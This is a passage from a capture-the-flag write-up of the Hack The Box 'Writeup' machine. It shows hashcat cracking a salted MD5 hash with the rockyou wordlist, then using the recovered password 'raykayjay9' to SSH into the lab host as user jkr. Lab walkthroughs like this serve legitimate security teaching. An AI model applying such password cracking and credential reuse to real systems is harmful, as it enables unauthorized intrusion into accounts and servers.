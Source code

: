 ``` bash

Dictionary cache hit:
* Filename..: /home/brad/tools/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9  # <-- CRACKED, hell yeah!
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: md5($salt.$pass)
Hash.Target......: 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
Time.Started.....: Thu Jul 22 21:47:36 2021 (0 secs)
Time.Estimated...: Thu Jul 22 21:47:36 2021 (0 secs)
Guess.Base.......: File (/home/brad/tools/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 18093.0 kH/s (2.08ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 4587520/14344384 (31.98%)
Rejected.........: 0/4587520 (0.00%)
Restore.Point....: 3932160/14344384 (27.41%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: seaford12 -> pommies1
Hardware.Mon.#1..: Temp: 53c Fan:  0% Util: 23% Core:1949MHz Mem:4006MHz Bus:16

Started: Thu Jul 22 21:47:33 2021
Stopped: Thu Jul 22 21:47:37 2021

```

We cracked the password! It's `raykayjay9`, let's use this to ssh into the server as `jkr` like we found above.

``` bash
┌──(root💀bradman)-[/home/brad/HTB/Writeup]
└─# ssh jkr@10.10.10.138                
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ whoami
jkr
jkr@writeup:~$ 

```
